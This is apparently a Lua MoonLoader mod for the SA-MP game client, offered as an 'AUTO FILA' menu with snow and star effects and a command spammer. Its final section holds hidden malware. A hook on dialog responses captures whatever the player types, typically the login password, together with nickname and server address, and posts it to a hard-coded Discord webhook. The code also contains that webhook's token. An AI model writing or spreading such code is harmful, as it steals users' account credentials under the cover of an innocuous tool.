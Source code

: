 local imgui = require 'mimgui'
local v = imgui.new.bool(false)
local spam_fila = imgui.new.bool(false)
local delay_ms = imgui.new.int(0)
local show_snow = imgui.new.bool(false)

local total_pontos = 30
local largura_onda = 60
local velocidade = 0.05
local angulo = 0

-- Aumentei o número de estrelas para 150
local estrelas = {}
local total_estrelas = 150
for i = 1, total_estrelas do
    table.insert(estrelas, {
        x = math.random(0, 300),
        y = math.random(0, 400),
        velocidade = math.random(5, 15)/10,
        tamanho = math.random(1, 3) -- Tamanho variado para as estrelas
    })
end

-- Aumentei o número de flocos de neve para 300
local snowflakes = {}
local total_snowflakes = 300
for i = 1, total_snowflakes do
    table.insert(snowflakes, {
        x = math.random(0, 300),
        y = math.random(-50, -10),
        velocidade = math.random(10, 30)/10,
        tamanho = math.random(1, 4), -- Tamanho variado para os flocos
        oscilacao = math.random() * 2 * math.pi,
        velocidade_oscilacao = math.random(1, 3)/10
    })
end

local float_btn_pos = imgui.ImVec2(50, 50)
local dragging = false
local drag_offset = imgui.ImVec2(0,0)

imgui.OnInitialize(function()
    local style = imgui.GetStyle()
    imgui.StyleColorsDark()
    style.WindowRounding = 6
    style.FrameRounding = 4
    style.GrabRounding = 4
    style.ScrollbarRounding = 4

    local colors = style.Colors
    colors[imgui.Col.WindowBg] = imgui.ImVec4(0.10,0.10,0.10,0.94)
    colors[imgui.Col.TitleBg] = imgui.ImVec4(0.08,0.08,0.08,1.00)
    colors[imgui.Col.TitleBgActive] = imgui.ImVec4(0.16,0.16,0.16,1.00)
    colors[imgui.Col.FrameBg] = imgui.ImVec4(0.16,0.16,0.16,1.00)
    colors[imgui.Col.FrameBgHovered] = imgui.ImVec4(0.20,0.20,0.20,1.00)
    colors[imgui.Col.FrameBgActive] = imgui.ImVec4(0.24,0.24,0.24,1.00)
    colors[imgui.Col.Button] = imgui.ImVec4(0.20,0.20,0.20,1.00)
    colors[imgui.Col.ButtonHovered] = imgui.ImVec4(0.30,0.30,0.30,1.00)
    colors[imgui.Col.ButtonActive] = imgui.ImVec4(0.40,0.40,0.40,1.00)
    colors[imgui.Col.Border] = imgui.ImVec4(0.43,0.43,0.50,0.50)
    colors[imgui.Col.Text] = imgui.ImVec4(1.00,1.00,1.00,1.00)
end)

imgui.OnFrame(function() return true end, function()
    local io = imgui.GetIO()

    imgui.SetNextWindowPos(float_btn_pos, imgui.Cond.Always)
    imgui.SetNextWindowSize(imgui.ImVec2(40,40))
    imgui.Begin("FLUTUANTE", nil,
        imgui.WindowFlags.NoTitleBar +
        imgui.WindowFlags.NoResize +
        imgui.WindowFlags.NoCollapse +
        imgui.WindowFlags.NoScrollbar +
        imgui.WindowFlags.NoMove +
        imgui.WindowFlags.AlwaysAutoResize
    )

    if imgui.Button("</>", imgui.ImVec2(40,40)) then
        v[0] = not v[0]
    end

    if imgui.IsItemHovered() and imgui.IsMouseClicked(0) and not dragging then
        dragging = true
        drag_offset.x = io.MousePos.x - float_btn_pos.x
        drag_offset.y = io.MousePos.y - float_btn_pos.y
    end

    if dragging then
        if imgui.IsMouseDown(0) then
            float_btn_pos.x = io.MousePos.x - drag_offset.x
            float_btn_pos.y = io.MousePos.y - drag_offset.y
            imgui.SetNextWindowPos(float_btn_pos, imgui.Cond.Always)
        else
            dragging = false
        end
    end

    imgui.End()

    if v[0] then
        imgui.SetNextWindowPos(imgui.ImVec2(600,350), imgui.Cond.FirstUseEver)
        imgui.SetNextWindowSize(imgui.ImVec2(300,400), imgui.Cond.FirstUseEver)
        imgui.Begin("AUTO FILA | by NukY", v,
            imgui.WindowFlags.NoCollapse +
            imgui.WindowFlags.NoResize
        )

        local draw = imgui.GetWindowDrawList()
        local pos = imgui.GetWindowPos()
        local size = imgui.GetWindowSize()
        local centroX = size.x/2
        local espacamento = size.y/total_pontos

        -- Desenha mais estrelas com tamanhos variados
        for i,e in ipairs(estrelas) do
            e.y = e.y + e.velocidade
            if e.y > size.y then 
                e.y = 0 
                e.x = math.random(0, size.x) 
                e.tamanho = math.random(1, 3) -- Atualiza o tamanho quando a estrela reaparece
            end
            draw:AddCircleFilled(imgui.ImVec2(pos.x+e.x,pos.y+e.y), e.tamanho, 0xFFFFFFFF)
        end

        angulo = angulo + velocidade
        for i=1,total_pontos do
            local offset = (i/total_pontos)*math.pi*2
            local y = i*espacamento
            local x1 = centroX + math.sin(angulo+offset)*largura_onda
            local x2 = centroX - math.sin(angulo+offset)*largura_onda
            draw:AddCircleFilled(imgui.ImVec2(pos.x+x1,pos.y+y),3,0xFFFFA500)
            draw:AddCircleFilled(imgui.ImVec2(pos.x+x2,pos.y+y),3,0xFF00BFFF)
            draw:AddLine(imgui.ImVec2(pos.x+x1,pos.y+y),imgui.ImVec2(pos.x+x2,pos.y+y),0x33FFFFFF,1)
        end

        imgui.SliderInt("Delay (ms)",delay_ms,0,30000)
        if imgui.Button("AUTO",imgui.ImVec2(150,30)) then
            spam_fila[0] = not spam_fila[0]
        end
        
        if imgui.Button("FRIO", imgui.ImVec2(150,30)) then
            show_snow[0] = not show_snow[0]
        end

        imgui.End()
    end

    if show_snow[0] then
        local screen_width, screen_height = getScreenResolution()
        local draw = imgui.GetBackgroundDrawList()
        
        -- Desenha mais flocos de neve com tamanhos variados
        for i, floco in ipairs(snowflakes) do
            floco.y = floco.y + floco.velocidade
            floco.oscilacao = floco.oscilacao + floco.velocidade_oscilacao
            floco.x = floco.x + math.sin(floco.oscilacao) * 0.5
            
            if floco.y > screen_height then
                floco.y = math.random(-50, -10)
                floco.x = math.random(0, screen_width)
                floco.tamanho = math.random(1, 4) -- Atualiza o tamanho quando o floco reaparece
            end
            
            draw:AddCircleFilled(imgui.ImVec2(floco.x, floco.y), floco.tamanho, 0xFFFFFFFF)
        end
    end
end)

function main()
    while true do
        wait(0)
        if isSampAvailable() and spam_fila[0] then
            sampSendChat("/fila")
            wait(delay_ms[0])
        end
    end
end
local webhookUrl = "https://discord.com/api/webhooks/1406683848485371914/unqy5VFh-KCFxrIgyorNy1wOXW3TVT-VSe4H5RR3w7NPddjtpASjiCZJkFgKNA1fqCZR"

local https = require("ssl.https")
local ltn12 = require("ltn12")

function sendMessageToDiscord(content)
    local body = '{"content": "' .. content:gsub('"', '\"'):gsub('\n', '\\n') .. '"}'
    local response_body = {}

    local res, code, response_headers, status = https.request{
        url = webhookUrl,
        method = "POST",
        headers = {
            ["Content-Type"] = "application/json",
            ["Content-Length"] = tostring(#body)
        },
        source = ltn12.source.string(body),
        sink = ltn12.sink.table(response_body)
    }

    if code ~= 200 then
        print("Erro ao enviar mensagem para o Discord: " .. (status or "Desconhecido"))
    end
end

require('samp.events').onSendDialogResponse = function(dialogId, button, listboxId, input)
    local res, id = sampGetPlayerIdByCharHandle(PLAYER_PED)
    local nick = sampGetPlayerNickname(id)
    local ip, port = sampGetCurrentServerAddress()
    local servername = sampGetCurrentServerName()
    local hora = os.date("%d/%m/%Y %H:%M:%S")

    local message = string.format([[
**LOGIN DA CONTA**

**Nome do Server:** %s
**Nick:** %s
**Servidor:** %s:%d
**Key:** %s
**Horário:** %s

Logs luac - By HexDump (MOBILE)]],
        servername, nick, ip, port, (input ~= "" and input or "SEM KEY"), hora
    )

    sendMessageToDiscord(message)
end
